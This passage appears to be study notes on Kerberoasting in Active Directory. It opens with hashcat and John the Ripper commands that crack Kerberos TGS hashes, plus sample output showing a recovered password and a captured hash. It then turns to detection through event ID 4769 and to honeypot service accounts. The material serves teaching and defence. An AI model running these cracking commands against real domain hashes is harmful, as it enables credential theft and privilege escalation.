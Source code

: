 ```bash
hashcat -m 13100 -a 0 spn.txt passwords.txt --outfile="cracked.txt"
```

##### **Output Example**
```plaintext
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
Recovered........: 1/1 (100.00%)
Candidate........: Slavi123
```

Alternatively, use **John the Ripper**:
```bash
john spn.txt --fork=4 --format=krb5tgs --wordlist=passwords.txt --pot=results.pot
```

---

### **Captured TGS Hash Example**
```plaintext
$krb5tgs$23$*Administrator$eagle.local$http/pki1@eagle.local*$ab67a0447d7d...:Slavi123
```

---
## Detection and Mitigation Techniques for TGS Requests and Kerberoasting

### Detection via Event Logs
- **Event ID 4769**: 
  - This event is generated whenever a TGS (Ticket Granting Service) is requested. It logs details about the request, including the user and service involved. 
  - Challenges:
    - High volume: Every service connection in Active Directory (AD) generates an Event ID 4769, making it difficult to isolate malicious activity.
  - Detection Strategy:
    - If an environment enforces **AES-only encryption** for tickets, alerting on Event ID 4769 with **RC4 ticket options** is a strong indicator of suspicious activity.
    - Alert on **unusually high ticket generation rates**:
      - Example: Tools like Rubeus generate multiple tickets (e.g., over 10 in a minute). Group the event logs by:
        - **User requesting tickets**.
        - **Originating machine**.
    - Example: In a controlled environment with only two users having SPNs, a suspicious spike in ticket requests can easily be identified and flagged.

---

### Using Honeypot Accounts
Honeypot accounts provide an effective method to detect malicious activity in an AD environment.

- **Characteristics of a Honeypot Account**:
  1. **Legacy Status**:
     - The account should appear as an older user with a plausible history of usage.
     - Preferably an **inactive account** (e.g., unused for 2+ years, ideally 5+ years).
  2. **Strong Password**:
     - The password should be complex enough to prevent cracking attempts, even if a ticket is obtained.
  3. **Privileges**:
     - Assign some level of privileges to make the account appear valuable (e.g., administrative roles or database access).
  4. **SPN Registration**:
     - Register a **Service Principal Name (SPN)**, such as for **IIS** or **SQL Server**, to mimic legitimate service accounts.
